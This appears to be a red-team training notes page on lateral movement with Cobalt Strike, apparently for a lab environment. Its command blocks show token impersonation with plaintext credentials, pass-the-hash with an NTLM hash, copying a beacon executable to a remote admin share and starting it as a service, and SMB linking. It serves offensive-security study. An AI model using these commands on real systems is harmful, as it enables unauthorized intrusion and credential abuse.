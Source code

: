 # Techniques - Moving Laterally





## Introduction

This page section will combine impersonation techniques found in the previous section "User Impersionation" with the actual techniques to establish connections on other hosts.







## Cobalt Strike&#x20;

Below is a combination of different ways to get a beacon on the host using multiple different credential methods to impersonate a user.

### Plaintext Creds - make\_token

```bash
// Establish netonly Token (example)
beacon> make_token DEV\jking Qwerty123
// Example beacon spawn
// Jump (using SMB listener)
beacon> jump winrm64 sql-2.dev.cyberbotic.io Default_SMB_Listener
```



### Hash creds - pth

<pre class="language-bash"><code class="lang-bash"><strong>// Impersonate w/ NTLM (can also use mimikatz ptf w/ steal_token)
</strong><strong>beacon> pth Administrator 59fc0f884922b4ce376051134c71e22c 
</strong>// Example beacon spawn
beacon> upload demo.svc.exe C:\Windows\Temp
// Copy beacon to remote host &#x26; create service
beacon> shell copy C:\Windows\Temp\demo.svc.exe \\172.16.48.121\C$\Windows\Temp
beacon> shell sc \\172.16.48.121 create demopth binpath=C:\Windows\Temp\demo.svc.exe
beacon> shell sc \\172.16.48.121 start demopth
// Connect to beacon w/ link (smb)
beacon> link 172.16.48.83
// Drop impoersonation
beacon> rev2self
</code></pre>

\
